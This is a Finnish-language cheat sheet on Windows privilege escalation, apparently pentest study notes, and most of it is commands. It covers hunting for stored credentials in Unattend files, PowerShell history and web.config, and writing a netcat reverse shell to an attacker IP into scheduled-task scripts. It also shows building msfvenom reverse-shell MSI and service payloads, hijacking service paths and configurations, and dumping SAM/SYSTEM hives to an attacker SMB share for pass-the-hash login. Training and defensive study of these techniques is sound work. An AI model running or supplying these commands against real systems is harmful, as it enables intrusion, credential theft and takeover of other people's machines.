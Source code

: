 ## Privilege Escalation: Windows

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o payload.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun payload.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\payload.msi
```
## Servicet

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.

**Unquoted Service Paths**

Jos servicen BINARY_PATH_NAME ei ole laitettu oikein heittomerkkeihin, syntyy välilyönneistä mahdollisuus hyväksikäytölle. Esim. polun C:\MyPrograms\SFTP Siirto Työkalu\run.exe yrittää SCM arvata oikeaa polkua järjestyksessä:

C:\MyPrograms\SFTP.exe, argumentit "Siirto", "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto.exe, argumentit "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto Työkalu\run.exe

Jos käyttäjällä on MyPrograms -kansioon kirjoitusoikeudet, voidaan luoda msfvenomilla payload nimellä SFTP.exe ja viedä se MyPrograms -kansioon, jolloin servicen uudelleenkäynnistyessä se suoritetaan serviceen asetetulla käyttäjätunnuksella.

**Servicen config-muutosoikeudet**

Jos käyttäjä voi muuttaa servicen konfigurointia, voi hyökkääjä muuttaa suoritettavan komennon toiseksi ja saada tätä kautta ajettua omaa koodia servicen käynnistystunnuksena. Apuna voidaan käyttää windowsin AccessChk -työkalua. Tarkistetaan servicen configurointioikeudet:
```cmd
C:\polku\accesschk64.exe -qlc servicen_nimi
```
Jos havaitaan, että konffeja voidaan muuttaa: luodaan payload, tuodaan kohteelle, annetaan ajo-oikeudet:
```cmd
icacls C:\polku\payload.exe /grant Everyone:F
```
jonka jälkeen muutetaan config ohjaamaan payloadiin (huomaa välilyönnit):
```cmd
sc config servicen_nimi binPath= "C:\polku\payload.exe" obj= LocalSystem
```

## Käyttäjän privilege
```cmd
whoami /priv
```
Lista vaarallisista privilegeistä: https://github.com/gtworek/Priv2Admin

**SeBackup / SeRestore

Jos käyttäjällä SeBackup / SeRestore oikeudet, voidaan esim. kopioida SAM ja SYSTEM rekisteritiedot ja saada Administratorin salasana-hash käyttöön. Command promt auki Run as administrator -> 
```cmd
reg save hklm\system C:\polku\system.hive
```
```cmd
reg save hklm\sam C:\polku\sam.hive
```
Tiedostot voidaan siirtää hyökkääjän koneelle esim. käynnistämällä hyökkääjän koneelle pieni SMB-palvelin ja kopioimalla tiedostot sinne. Esim. ohjataan public -niminen kansio ja ohjataan se hyökkääjän koneella share-kansioon, ja käyttäjätunnus+salasana korkatulta Windows-käyttäjältä:
```cmd
mkdir share
```
```cmd
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username KÄYTTÄJÄ -password SALASANA public share
```
Uhrin koneella kopiointi:
```cmd
copy C:\polku\sam.hive \\HYÖKKÄÄJÄN_IP\public\
```
```cmd
copy C:\polku\system.hive \\HYÖKKÄÄJÄN_IP\public\
```
Tiedostoista hashit:
```cmd
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
Ja kirjautuminen hasheja käyttämällä:
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes q1w2e3r4t5y6u7iu:9o8i7u6y5t4r3e2w12q administrator@UHRIN_IP
```

